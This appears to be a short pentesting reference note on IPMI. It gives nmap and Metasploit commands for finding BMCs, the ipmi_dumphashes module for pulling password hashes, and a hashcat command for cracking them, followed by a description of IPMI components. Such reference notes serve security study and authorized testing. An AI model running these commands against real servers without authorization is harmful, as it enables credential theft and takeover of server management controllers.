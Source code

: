 # IPMI (Intelligent Platform Management Interface)

Nmap:

```bash

nmap -sU --script ipmi-version -p 623 <target>

```

Metasploit version scan:

```bash
use auxiliary/scanner/ipmi/ipmi_version
set RHOSTS <target>
run
```

Metasploit Dumping Hashes:

```bash

use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS <target>
run
```

Password Cracking:

```bash
hashcat -m 7300 hash.txt /usr/share/wordlists/rockyou.txt
```



Three main usecases:

1. Before the OS has booted to modify BIOS settings
2. When the host is fully powered down
3. Access to a host after a system failure

IPMI requires the following components:

- **BMC (Baseboard Management Controller)**: A specialized microcontroller embedded on the motherboard that manages the interface between system management software and platform hardware.
- **IPMI Firmware**: The software that runs on the BMC, providing the IP
- **IPMI Interface**: The communication interface that allows the BMC to communicate with the host system and external management software. This can be through various protocols such as LAN, Serial, or KCS (Keyboard Controller Style).
- **Intelligent Chassis Management Bus (ICMB)**: A bus used for communication between the BMC and other components in the system, such as sensors and power supplies.
- **Intelligent Platform Management Bus (IPMB)**: A bus used for communication between multiple BMCs in a system, allowing for coordinated management of multiple devices.

                                                                                                                                                                                                                     
